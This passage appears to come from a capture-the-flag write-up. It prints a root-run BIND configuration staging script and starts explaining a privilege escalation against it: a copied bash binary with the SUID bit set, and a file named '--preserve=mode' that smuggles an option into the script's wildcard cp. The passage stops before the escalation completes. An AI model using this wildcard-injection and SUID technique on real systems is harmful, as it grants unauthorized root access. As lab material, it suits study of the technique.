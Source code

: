 ```

indent() { sed 's/^/    /'; }

# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi

# Create config file that includes all files from named.bindmgr.
echo "[+] Creating $BINDMGR_CONF file."
printf '// Automatically generated file. Do not modify manually.\n' > $BINDMGR_CONF
for file in * ; do
    printf 'include "/etc/bind/named.bindmgr/%s";\n' "$file" >> $BINDMGR_CONF
done

# Stage new version of configuration files.
echo "[+] Staging files to $BINDMGR_DIR."
cp .version * /etc/bind/named.bindmgr/

# Check generated configuration with named-checkconf.
echo "[+] Checking staged configuration."
named-checkconf $BINDMGR_CONF >/dev/null
if [[ $? -ne 0 ]] ; then
    echo "[-] ERROR: The generated configuration is not valid. Please fix following errors: "
    named-checkconf $BINDMGR_CONF 2>&1 | indent
    exit 44
else
    echo "[+] Configuration successfully staged."
    # *** TODO *** Uncomment restart once we are live.
    # systemctl restart bind9
    if [[ $? -ne 0 ]] ; then
        echo "[-] Restart of bind9 via systemctl failed. Please check logfile: "
        systemctl status bind9
    else
        echo "[+] Restart of bind9 via systemctl succeeded."
    fi
fi
```

This script checks for a file called ‘.version’ in current directory, if its exists then copies all the content to /etc/bind/named.bindmgr/ directory. So, we can put bash binary and set the binary with SUID bit, and we need to preserve the current ownership and permissions while copying the files.

```
bindmgr@dynstr:~/test$ echo '1' > .version

bindmgr@dynstr:~/test$ cp /bin/bash .

bindmgr@dynstr:~/test$ chmod +s bash

bindmgr@dynstr:~/test$ echo > '--preserve=mode'
```
